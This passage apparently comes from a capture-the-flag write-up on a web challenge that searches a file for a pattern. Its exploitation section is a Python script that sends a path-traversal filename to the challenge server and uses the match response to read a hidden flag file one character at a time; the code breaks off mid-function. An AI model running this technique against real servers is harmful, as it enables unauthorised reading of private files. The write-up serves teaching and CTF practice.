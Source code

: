 ![file_pattern](/assets/img/blog/icmtc/file_pattern2.png)

The output gives you the position of the `sequence` you entered in the `pattern` field.

### Exploitation
```python
import requests

url = "http://46.101.221.164:8080/"
filename = "../../../tmp/flag_21e0e99ddec45ab7a40a675175e2704d.txt"
characters = """ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789{}_@!#$%^&*()[]-+=|;:,.<>/?~ \n\t\r'"\`\\"""

def check_pattern(pattern, line_number):
    data = {
        "filename": filename,
        "pattern": pattern
    }
    response = requests.post(url, data=data)
    return f"Line: {line_number}" in response.text

def print_and_log(message, file):
    print(message)
    file.write(message + '\n')
    file.flush()

def find_line_content(line_number, output_file):
    known_content = ""
    while True:
        found = False
        for char in characters:
            test_pattern = known_content + char
            if check_pattern(test_pattern, line_number):
                known_content = test_pattern
                print_and_log(f"Content found so far on line {line_number}: {repr(known_content)}", output_file)
                found = True
```